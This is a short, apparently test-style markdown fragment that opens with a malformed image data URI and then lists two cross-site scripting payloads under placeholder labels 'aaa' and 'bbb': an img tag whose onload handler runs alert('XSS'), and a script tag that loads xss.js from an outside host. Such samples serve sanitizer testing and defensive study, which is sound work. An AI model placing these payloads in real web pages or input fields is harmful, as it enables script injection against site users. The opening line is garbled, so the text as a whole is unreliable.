 1. aaa

    ```
    <img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
    ```
    
2. bbb

    ```
    <script src="http://a.com/xss.js"></script>
    ```
    